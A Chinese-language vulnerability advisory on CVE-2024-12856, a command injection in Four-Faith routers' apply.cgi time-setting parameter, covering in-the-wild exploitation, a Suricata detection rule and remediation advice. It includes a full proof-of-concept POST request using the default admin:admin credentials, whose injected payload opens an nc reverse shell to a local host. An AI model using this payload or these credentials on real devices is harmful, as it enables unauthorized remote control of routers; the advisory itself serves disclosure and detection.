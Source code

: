 #  CVE-2024-12856 四信Four-Faith路由器存在命令注入漏洞   
云梦DC  云梦安全   2024-12-31 03:52  
  
## CVE-2024-12856漏洞描述  
  
Four-Faith 路由器型号 F3x24 和 F3x36 受到操作系统 (OS) 命令注入漏洞的影响。至少固件版本 2.0 允许经过身份验证的远程攻击者在通过 apply.cgi 修改系统时间时通过 HTTP 执行任意 OS 命令。此外，**此固件版本具有默认凭据，如果不更改，将有效地将此漏洞转变为未经身份验证的远程 OS 命令执行问题。**  
## CVSS 评分  
  
7.2  
## 漏洞详情  
  
由于该漏洞仅当远程攻击者能够成功验证身份时才会起作用，因此其严重性较低。但是，**如果与路由器关联的默认凭据未更改(admin:admin)，则可能导致未经验证的操作系统命令执行。**  
  
在 VulnCheck 详述的攻击中，发现未知威胁行为者利用路由器的默认凭据来触发 CVE-2024-12856 的利用并启动反向 shell 以实现持久远程访问。  
  
此次攻击尝试源自 IP 地址  
178.215.238[.]91  
，该地址之前曾用于试图利用CVE-2019-12168进行攻击，这是影响 Four-Faith 路由器的另一个远程代码执行漏洞。据威胁情报公司 GreyNoise 称，最近  
一次  
利用 CVE-2019-12168 的尝试是在 2024 年 12 月 19 日。  
  
Jacob Baines 在一份报告中表示  
： “至少可以通过 HTTP 使用 /apply.cgi 端点对 Four-Faith F3x24 和 F3x36 进行攻击。通过submit_type=adjust_sys_time 修改设备的系统时间时，系统容易受到 adj_time_year 参数中的操作系统命令注入攻击。”  
  
Censys 的数据  
显示  
，有超过 15,000 台面向互联网的设备。有证据  
表明  
，利用该漏洞的攻击可能至少从 2024 年 11 月初就开始了。  
## CVE-2024-12856 POC  
  
以下 POST 请求演示了如何反弹 shell  
```
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1:90
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Length: 296
Authorization: Basic YWRtaW46YWRtaW4=
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
adj_time_sec=32&change_action=gozila_cgi&adj_time_day=27&adj_time_mon=10&adj_time_hour=11&adj_time_year=%24%28cd+%2Ftmp%2F%3B+mknod+bOY+p%3Bcat+bOY%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+192.168.1.206+1270+%3EbOY%3B+rm+bOY%3B%29&adj_time_min=35&submit_button=index&action=Save&submit_type=adjust_sys_time

```  
  
解码后如下所示  
```
adj_time_sec=32&change_action=gozila_cgi&adj_time_day=27&adj_time_mon=10&adj_time_hour=11&adj_time_year=$(cd /tmp/; mknod bOY p;cat bOY|/bin/sh -i 2>&1|nc 192.168.1.206 1270 >bOY; rm bOY;)&adj_time_min=35&submit_button=index&action=Save&submit_type=adjust_sys_time
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpzq4alUv7lTTLuv1kYhWq5LbtTSgicDXibYSKIrlWchdbknuNvPIaqPCicU0caZ4LZFXKWUG2zTn3toQ/640?wx_fmt=png&from=appmsg "")  
  
在设备上，可以使用以下方法观察命令注入的结果ps  
：```
20938 admin     1640 S    sh -c rtc_tm ss $(cd /tmp/; mknod WaO p;cat WaO|/bin
20940 admin     1640 S    sh -c rtc_tm ss $(cd /tmp/; mknod WaO p;cat WaO|/bin
20942 admin     1636 S    cat WaO
20943 admin     1636 S    /bin/sh -i
20945 admin     1636 S    nc 192.168.1.206 1270

```  
  
对于那些对漏洞有着百科全书般记忆的人来说，这个漏洞不应与  
CVE-2019-12168  
混淆。虽然两者都流经端点apply.cgi  
，但它们攻击的是不同的底层组件（CVE-2019-12168 攻击submit_type=start  
并在参数中有一个操作系统注入ping_ip  
）。  
  
VulnCheck 发现  
178.215.238[.]91  
试图利用此漏洞。此外，我们注意到这篇 2024 年 11 月的  
博客  
也提到了利用此漏洞。他们观察到的 User-Agent 甚至与 VulnCheck 在野外观察到的 User-Agent 相匹配（尽管我们看到了完全不同的有效载荷）。  
## 检测方法  
  
VulnCheck   
Initial Access  
团队编写了以下 Suricata 规则来检测网络上的 CVE-2024-12856：  
```
alert http any any -> any any ( \
    msg:"VULNCHECK Four-Faith CVE-2024-12856 Exploit Attempt"; \
    flow:to_server; \
    http.method; content:"POST"; \
    http.uri; content:"/apply.cgi"; startswith; \
    http.header_names; content:"Authorization"; \
    http.request_body; content:"change_action="; \
    content:"adjust_sys_time"; \
    pcre:"/adj_time_[^=]+=[a-zA-Z0-9]*[^a-zA-Z0-9=]/"; \
    classtype:web-application-attack; \
    reference:cve,CVE-2024-12856; \
    sid:12700438; rev:1;)

```  
## 漏洞修复建议  
  
目前尚无关于补丁可用性的信息，但 VulnCheck 表示已于 2024 年 12 月 20 日负责任地向这家中国公司报告了该漏洞。Hacker News 在本文发布之前已联系 Four-Faith 征求意见，如果收到回复，我们将更新本文。  
  
修改默认口令  
  
